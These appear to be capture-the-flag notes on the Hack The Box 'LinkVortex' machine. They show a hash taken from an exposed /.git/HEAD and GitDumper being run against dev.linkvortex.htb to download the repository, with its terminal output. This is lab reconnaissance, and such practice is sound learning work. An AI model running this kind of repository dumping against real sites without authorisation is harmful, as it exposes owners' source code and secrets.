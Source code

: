 ***
/.git/HEAD has some sort of hash in its webpage. I still have no clue what is for so we save it for now 
299cdb4387763f850887275a716153e84793077d

***
./gitdumper.sh http://dev.linkvortex.htb/.git/ ~/linkvortex
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /home/kaimup/linkvortex/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[+] Downloaded: packed-refs
[-] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[-] Downloaded: objects/29/9cdb4387763f850887275a716153e84793077d
[-] Downloaded: objects/95/c8cd18cb03afb956fadc9f3346ae6fae3db80d
[-] Downloaded: objects/00/00000000000000000000000000000000000000
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-xylyllvqha]─[~/Downloads/GitTools/Dumper]
└──╼ [★]$ 

***
eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-xylyllvqha]─[~/Downloads/GitTools/Dumper]
└──╼ [★]$ cd ~/linkvortex/.git
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-xylyllvqha]─[~/linkvortex/.git]
└──╼ [★]$ ls
config  description  HEAD  index  info  logs  objects  packed-refs  refs
